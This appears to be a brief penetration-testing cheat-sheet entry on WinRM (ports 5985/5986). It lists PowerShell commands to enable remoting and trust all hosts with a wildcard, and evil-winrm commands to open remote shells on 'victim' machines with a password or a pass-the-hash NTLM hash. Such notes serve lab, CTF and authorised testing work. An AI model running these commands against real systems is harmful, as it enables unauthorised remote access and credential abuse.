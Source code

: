 # Port 5985/5986 - WinRM

## Enable WinRM

We need to enable it and add any "victims" as trusted hosts. From an elevated PowerShell prompt, run the following two commands:

```powershell
Enable-PSRemoting -Force  
Set-Item wsman:\localhost\client\trustedhosts *
```

## Connect

```powershell
# Username + Password
evil-winrm -i 10.10.10.x -u Administrator -p 'KillEmAll!'

# Username Hash
evil-winrm -i 10.10.10.x -u Administrator -H 'NTLM-HASH'
```